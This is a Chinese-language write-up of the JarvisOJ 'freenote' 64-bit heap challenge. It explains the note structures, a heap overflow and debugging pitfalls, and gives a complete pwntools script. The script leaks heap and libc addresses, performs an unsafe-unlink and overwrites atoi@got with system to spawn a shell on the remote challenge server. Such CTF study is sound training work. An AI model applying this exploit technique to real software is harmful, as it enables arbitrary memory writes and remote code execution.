


level6 32位的我没有调出来，貌似32位的堆结构和64位不太一样，嘤嘤嘤？，所以做了一下这个64位的，题目地址 ，level6_x64
首先看一下程序的结构体
1 2 3 4 5 6 7 8 9 10 11 12 struct list //0x1810 { int all=256; int now_sum; struct _note *note; } struct _note { bool inuse; int len; char *content; }
然后看一下出现漏洞的edit和delete函数


所以这一个题只有一种利用方式就是利用溢出unlink实现一次任意地址写，修改atoi@got为system_addr
思路如下：
1.leak heap base计算出保存&chunk0的地址以便unlink
2.unlink
3.leak libc_base
4.modify atoi@got to system to get shell
里边的几个坑：
1.计算heap base的偏移是0x1810+3*0x90，这里调试态的堆是chunk1的fd指向chunk3 的malloc_addr，而运行态是指向chunk3的header.prev，所以计算&chunk0地址的时候需要手动调试下
2.leak heap base时recv(8)会读到0x0a回车符，并不好使，所以recvuntil(‘\x0a’,drop=True)来读
3.构造payload的时候要注意send和realloc的长度限制
脚本如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 from pwn import * context.log_level='DEBUG' #r=process('./freenote_x64',env={"LD_PRELOAD":"./libc-2.19.so"}) r=remote('pwn2.jarvisoj.com',9886) elf=ELF('./freenote_x64') libc=ELF('./libc-2.19.so') def list(): r.sendlineafter('choice: ','1') def new(payload): r.sendlineafter('choice: ','2') r.sendlineafter('new note: ',str(len(payload))) r.sendafter('note: ',payload) def edit(num,payload): r.sendlineafter('choice: ','3') r.sendlineafter('number: ',str(num)) r.sendlineafter('note: ',str(len(payload))) r.sendafter('your note: ',payload) def delete(num): r.sendlineafter('choice: ','4') r.sendlineafter('number: ',str(num)) #leak heap base new('a'*0x80)#0 new('a'*0x80)#1 new('a'*0x80)#2 new('a'*0x80)#3 new('a'*0x80)#4 #malloc chunk4 to avoid chunk3 consolidated to topchunk delete(3) delete(1) edit(0,'a'*0x80+'b'*0x10) #overwrite next chunk'header to leak list() r.recvuntil('b'*0x10) heap_base=u64(r.recvuntil('\x0a',drop=True).ljust(0x8,'\x00'))-0x19c0#0x1810+3*0x90 chunk0=heap_base+0x20 success('leak heap base') success('heapbase:'+hex(heap_base)) #gdb.attach(r) sleep(1) #unlink payload=p64(0)+p64(0x80)+p64(chunk0-3*8)+p64(chunk0-2*8)+'a'*(0x80-4*8)+p64(0x80)+p64(0x90) payload=payload.ljust(0x100,'\xbb') edit(0,payload) #gdb.attach(r) delete(1) success('unlink') sleep(1) #leak libc base payload2=p64(2)+p64(1)+p64(0x80)+p64(chunk0)+p64(1)+p64(8)+p64(elf.got['atoi']) payload2=payload2.ljust(0x100,'\xbb') edit(0,payload2) list() r.recvuntil('1. ') libc_base=u64(r.recvuntil('\x0a',drop=True).ljust(0x8,'\x00'))-libc.sym['atoi'] success(hex(libc_base)) #modify atoi to system to getshell sys_addr=libc_base+libc.sym['system'] edit(1,p64(sys_addr))#*(&atoi@got)=sys_addr r.sendlineafter('choice: ','/bin/sh\0') r.interactive()